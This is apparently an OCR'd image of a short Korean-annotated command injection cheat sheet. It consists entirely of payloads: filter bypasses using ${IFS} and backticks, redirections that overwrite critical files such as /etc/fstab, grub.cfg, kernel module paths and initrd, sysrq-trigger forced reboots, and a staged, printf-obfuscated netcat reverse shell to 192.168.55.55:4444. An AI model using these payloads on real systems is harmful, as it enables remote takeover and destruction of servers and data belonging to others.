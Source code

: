 # COMMAND INJECTION
공백 우회  
|/usr/bin/touch${IFS}/opt/test_injection  

---------------------------------------------------
and, or ,; 우회  

`id>/opt/test_injection`  

--------------------------------------
라다이렉션만을 이용하여 시스템 파괴  

id>/lib/modules/*/kernel/drivers/usb/storage  

id>/etc/fstab  

id>/etc/mtab  

id>/etc/inittab  

id>/boot/grub/grub.cfg  

id>/boot/initrd.img-$(uname -r)  

id>/etc/systemd/  

echo 'b'>/proc/sysrq-trigger  

<<<b>/proc/sysrq-trigger  

root일 경우만 덮어씌울수있음.  

--------------------------------------------  
;sleep 5 # 해당 명령어가 먹힐 경우 리버스tcp 가능  
;mkfifo${IFS}/opt/f;  
;printf${IFS}'nc\x20192.168.55.55\x204444'>/opt/b;  
;printf${IFS}'\x20</opt/f\x7Cbin/sh>/opt/f'>/opt/c;  
;cat${IFS}/opt/b${IFS}/opt/c>/opt/t;  
;chmod${IFS}777${IFS}/opt/t;  
;./opt/t;  

